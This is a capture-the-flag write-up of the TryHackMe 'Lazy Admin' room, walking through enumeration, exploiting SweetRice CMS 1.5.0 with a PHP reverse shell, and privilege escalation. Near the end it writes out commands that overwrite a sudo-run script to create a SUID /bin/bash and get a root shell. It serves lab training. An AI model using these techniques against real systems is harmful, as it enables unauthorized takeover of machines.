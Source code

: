 ```yaml
---
slug: lazy_admin
title: Lazy Admin CTF
authors: [hueami]
tags: [tryhackme, ctf, rce, lpe]
comments: true
---
```


## Lazy Admin CTF Write-Up

This document provides a comprehensive write-up of the [Lazy Admin](https://tryhackme.com/room/lazyadmin) room on TryHackMe, highlighting a methodical approach to penetration testing within a controlled environment. The challenge is tagged as easy and focuses on exploiting common vulnerabilities found in web applications and misconfigurations within Unix systems.

### Initial Reconnaissance

#### Web Enumeration

Initial interaction with the target's IP address revealed an Apache default page, suggesting further investigation was necessary. Port scanning was conducted using `nmap` to identify open services:

```bash
nmap [target IP] -p0- -T4
```

The scan results indicated two open ports:
- **22/tcp** for SSH
- **80/tcp** for HTTP

Following this, directory enumeration was performed using `feroxbuster` to discover potential web directories:

```bash
feroxbuster -u [target IP] -w ~/security/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --dont-filter --filter-status 404
```

The command uncovered a directory `/content/`, hinting at the presence of a CMS, identified as SweetRice based on the text on the welcome page. It also revealed `/content/as`, the admin panel of the CMS. User and password are unknown yet.

#### CMS Version Identification

Additional file enumeration focused on the SweetRice CMS path, utilizing `feroxbuster` with a file-specific wordlist, revealing a `changelog.txt`.

```bash
feroxbuster -u [target IP] -w ~/security/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --dont-filter --filter-status 404
```

 Analysis of this file confirmed the CMS version as 1.5.0.

#### Exploit Research

Research on ExploitDB identified vulnerabilities associated with SweetRice 1.5.0, including a MySQL backup issue and a PHP code execution vulnerability:
- **MySQL Backup Discovery**: [ExploitDB Link](https://www.exploit-db.com/exploits/40718)
- **PHP Code Execution Vulnerability**: [ExploitDB Link](https://www.exploit-db.com/exploits/40700)

### Gaining Initial Access

The MySQL backup vulnerability indeed led to a mysql backup file, which provided credentials for a user calles "manager", with a hashed password. These credentials facilitated admin panel access.

### Establishing a Shell

Studying the PHP code execution vulnerability revealed, that php code could be inserted into the Ads code field and then be executed. I used the [pentestmonkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), initiated a netcat listener on my local machine, and accessed the manipulated Ad URL `http://[target IP]/content/inc/ads/shell.php`. That granted a shell as `www-data`.

#### Shell Stabilization

To stabilize the shell, a Python one-liner was executed, followed by terminal adjustments for full interactivity:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Ctrl + Z for background process and execute:
```bash
stty raw -echo; fg
export TERM=xterm
```
I then found the user flag in `/home/itguy/user.txt`.

### Privilege Escalation

Analysis of user sudo permissions with `sudo -l` revealed a Perl script that could be executed as root without a password:

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

The script was not writeable by any user but invokes another script (`/etc/copy.sh`), which was.

#### Achieving Root Access

Modifying `/etc/copy.sh` to copy and set SUID permissions on `/bin/bash`, and executing the Perl script as sudo, facilitated root shell access:

```bash
echo "cp /bin/bash /tmp/bash;chmod 4777 /tmp/bash;" > /etc/copy.sh
sudo /home/itguy/backup.pl
/tmp/bash -p
```

With the spawned root shell I was able to obtain the root flag in `/root/root.txt`

### Conclusion

This write-up documented the technical steps taken to compromise the "Lazy Admin" CTF challenge on TryHackMe, emphasizing enumeration, vulnerability exploitation, and privilege escalation techniques. The process underscores the importance of meticulous reconnaissance and leveraging known vulnerabilities to achieve elevated privileges.
